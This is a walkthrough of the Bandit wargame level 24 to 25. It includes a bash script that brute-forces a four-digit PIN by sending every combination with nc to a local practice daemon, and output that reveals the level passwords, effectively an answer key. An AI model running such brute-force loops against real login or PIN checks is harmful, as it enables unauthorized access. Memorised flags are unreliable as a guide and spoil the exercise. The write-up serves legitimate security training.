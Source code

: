 #Bandit: Level 24 -> 25

##Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

##Solution
1. SSH onto the server with the username bandit24

2. Create a shell script to run the bruteforcing for you, I came up with

   ```
   #!/bin/bash
   
   pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
   
   for answer in {0..9}{0..9}{0..9}{0..9}
   do
     echo $pass' '$answer | nc 127.0.0.1 30002 >> result &
   done
   ```

3. Run the shell script for a while, in a tmp folder

4. Once it finishs we can search the results file for a correct reponse, to do this I used the unique code from level 8

   ```
   bandit24@melinda:/tmp/jm27989$ sort result | uniq -c | sort -bgr
     20722 I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
     20722 Exiting.
     20721 Wrong! Please enter the correct pincode. Try again.
     1 The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
     1 Correct!
     1 
   ```

Flag: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
